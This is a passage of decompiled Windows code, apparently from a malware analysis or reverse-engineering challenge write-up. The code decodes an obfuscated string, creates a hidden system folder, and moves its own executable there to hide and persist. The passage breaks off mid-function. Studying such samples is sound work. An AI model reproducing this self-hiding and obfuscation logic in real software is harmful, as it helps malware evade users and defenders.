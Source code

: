 ```cpp=
  PWSTR ppszPathOut; // [rsp+38h] [rbp-38h] BYREF
  int char_1; // [rsp+44h] [rbp-2Ch]
  PWSTR ppszPath; // [rsp+48h] [rbp-28h] BYREF
  LPWSTR lpFilename; // [rsp+50h] [rbp-20h]
  LPWSTR lpWideCharStr; // [rsp+58h] [rbp-18h]
  int cchWideChar; // [rsp+64h] [rbp-Ch]
  int j; // [rsp+68h] [rbp-8h]
  int i; // [rsp+6Ch] [rbp-4h]

  if ( SHGetKnownFolderPath((const KNOWNFOLDERID *const)&unk_14000AA80, KF_FLAG_DEFAULT, 0i64, &ppszPath) )
    return 0i64;
  for ( i = 7; i <= 22; i += 4 )
  {
    char_1 = *(_DWORD *)((char *)szUrl + i);
    for ( j = 0; j <= 3; ++j )
    {
      LOBYTE(char_1) = char_1 - 43;
      char_1 = __ROR4__(char_1, 8);
    }
    char_1 ^= 0x6F6F6F6Fu;
    *(_DWORD *)((char *)szUrl + i) = char_1;
  }
  HIBYTE(szUrl[2]) = 0;
  cchWideChar = MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, 0i64, 0);
  if ( !cchWideChar )
    return 0i64;
  lpWideCharStr = (LPWSTR)malloc(2i64 * cchWideChar);
  if ( !lpWideCharStr )
    return 0i64;
  MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, lpWideCharStr, cchWideChar);
  if ( PathAllocCombine(ppszPath, lpWideCharStr, PATHCCH_NONE, &ppszPathOut) )
  {
    free(lpWideCharStr);
    return 0i64;
  }
  else
  {
    CreateDirectoryW(ppszPathOut, 0i64);
    SetFileAttributesW(ppszPathOut, 0x26u);     // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
    lpFilename = (LPWSTR)malloc(0x208ui64);
    GetModuleFileNameW(0i64, lpFilename, 0x104u);
    if ( PathAllocCombine(ppszPathOut, lpWideCharStr, 0, &ppszPathOut) )
    {
      free(lpWideCharStr);
      free(lpFilename);
      return 0i64;
    }
    else if ( MoveFileW(lpFilename, ppszPathOut) )
    {
      SetFileAttributesW(ppszPathOut, 0x26u);   // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
      free(lpWideCharStr);
      free(lpFilename);
      return Reverse_URL_Part2(ppszPathOut);
    }
    else
    {
      free(lpWideCharStr);
      free(lpFilename);
      ImportatntPart();
      return 0i64;
```